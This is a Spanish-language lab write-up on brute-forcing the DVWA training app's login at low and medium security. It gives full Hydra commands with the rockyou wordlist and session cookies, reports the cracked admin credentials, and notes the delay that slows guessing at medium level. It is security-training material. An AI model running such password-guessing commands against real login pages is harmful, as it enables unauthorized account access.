


# Brute Force - DVWA

## Nivel de seguridad: Low

Al enviar el nombre de usuario y la contraseña, observamos que se utiliza un método **GET** para procesar el formulario.

Usaremos **Hydra** para realizar el ataque de fuerza bruta.



**Comando usado:**
```bash
hydra -v -t 1 -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-get-form "/DVWA/vulnerabilities/brute/?username=USER&password=PASS&Login=Login:H=Cookie: PHPSESSID=54evtt2cercvq2jc5a7p6blf; security=low"
```

Hydra encuentra exitosamente las credenciales:
- **Usuario:** `admin`
- **Contraseña:** `password`

---

## Nivel de seguridad: Medium

Aunque el nivel de seguridad ahora es **medium**, el formulario sigue usando el método **GET**.

Volvemos a utilizar **Hydra** para realizar el ataque.



**Comando usado:**
```bash
hydra -v -t 1 -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-get-form "/DVWA/vulnerabilities/brute/?username=USER&password=PASS&Login=Login:H=Cookie: PHPSESSID=4c5a2mcp3d6qk0487mt09a; security=medium"
```

Hydra logra romper la autenticación de nuevo:
- **Usuario:** `admin`
- **Contraseña:** `password`

Sin embargo, esta vez el ataque tarda **significativamente más** en completarse.

### Análisis adicional

Al analizar la funcionalidad de inicio de sesión, notamos que, en caso de intento fallido, la respuesta del servidor se retrasa **2 o 3 segundos**. Esto es una medida sencilla para dificultar ataques de fuerza bruta aumentando el tiempo de respuesta.

---

> **Nota:** En ambos casos fue importante capturar correctamente la cookie de sesión (`PHPSESSID`) y el nivel de seguridad para configurar Hydra de manera adecuada.
